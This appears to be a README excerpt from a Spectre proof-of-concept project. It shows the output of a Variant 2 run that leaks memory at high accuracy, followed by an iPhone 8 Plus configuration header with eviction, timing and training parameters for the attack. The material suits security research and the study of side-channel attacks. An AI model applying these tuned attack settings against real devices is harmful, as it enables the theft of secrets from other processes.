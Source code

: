 **Variant 2:**
```
$ ./spectre
[Spectre Variant 2]
miss: 203, hit: 110, threshold: 180
finding eviction set failed!
finding eviction set failed!
Eviction set found!
Eviction set found!
Eviction set found!
leaked 10240 byte in 5055 ms. (2025.72 bytes/s) correct: 80573 / 81920 bits (98.36 %)
setup took: 816 ms.
```

### iPhone 8 Plus ###

**config.h:**
```
#ifndef CONFIG_H
#define CONFIG_H

/* --- Constants --- */
#define EVICTION 0
#define FLUSHING 1
#define MSR 0
#define COUNTER_THREAD 1


/* --- Generic --- */
#define VERBOSITY 0
#define CACHE EVICTION
#define TIMER COUNTER_THREAD
#define PAGE_SIZE 16384


/* --- Eviction --- */
// #define EVICTION_THRESHOLD 150 /* use calibration! */
#define EVICTION_SET_SIZE 16
#define EVICTION_MEMORY_SIZE 20 * 1024 * 1024

/* --- Spectre --- */
#define VARIANT /* 1 or 2 */
#define BITS 4
#define ENTRY_SIZE 512
#define ITERATIONS 4
#define VICTIM_CALLS 40
#define TRAINING 9
#define THRESHOLD 60
#define BENCHMARK 1

/* --- Calculated automatically --- */
#define OFFSETS_PER_BYTE (8 / BITS)
#define VALUES (1 << BITS)

/* --- Mitigation --- */
#define MITIGATION_ASM
#define MITIGATION

#endif
```
